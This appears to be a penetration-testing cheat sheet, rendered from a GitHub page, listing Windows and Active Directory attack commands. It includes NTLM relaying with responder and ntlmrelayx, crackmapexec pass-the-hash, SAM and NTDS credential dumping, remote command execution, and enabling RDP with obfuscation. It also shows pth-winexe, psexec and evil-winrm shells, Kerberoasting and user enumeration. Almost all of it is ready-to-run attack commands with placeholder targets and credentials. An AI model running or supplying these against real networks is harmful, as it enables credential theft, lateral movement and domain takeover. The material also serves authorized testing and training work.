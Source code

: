 ```
impacket-ntlmrelayx -tf targets.txt -smb2support

responder -I interface -rdw
```

---

> ### _crackmapexec_ __Attack__
```
cme smb 10.10.10.x -u 'username' -H 'NTLM hash'

cme smb 10.10.10.x -u 'username' -p 'password' -x command

cme smb 10.10.10.x -u 'username' -H 'NTLM hash' --sam

cme smb 10.10.10.x -u 'username' -p 'password' --sam

cme smb 10.10.10.x -u 'username' -p 'password' -M rdp -o ACTION='enable'

cme smb 10.10.10.x -u 'username' -H 'NTLM hash' -M -rdp -o ACTION='enable' --obfs

cme smb 10.10.10.x -u 'username' -H 'NTLM hash' -M -rdp -o ACTION='enable'

cme smb 10.10.10.x -u username -p 'password' --ntds

cme smb 10.10.10.x -u username -p 'password' --ntds vss

cme smb 10.10.10.x -u username -p password --pass-pol
```

> ### _pth-winexe_ __Pass the Hash__
````
pth-winexe -U PEPE.LOCAL/username%HASH_LM:HASH_NTLM //10.10.10.x cmd.exe
````

> ### _psexec_
````
impacket-psexec pepe.local/username:password@10.10.10.x cmd.exe

impacket-psexec 'username:password@10.10.10.x' cmd.exe

python3 psexec.py pepe.local/username:password@10.10.10.x cmd.exe
````

> ### _evil-winrm_
````
evil-winrm -i 10.10.10.x -u username -p 'password'

evil-winrm -i 10.10.10.x -u username -H 'hash NTLM' #-p port
````

> ### _Kerberoasting_
````
impacket-GetUserSPNs -rquest -dc-ip 10.10.10.x blackfield.local/username

./kerbrute userenum --dc ip -d PEPE.local users.txt
````
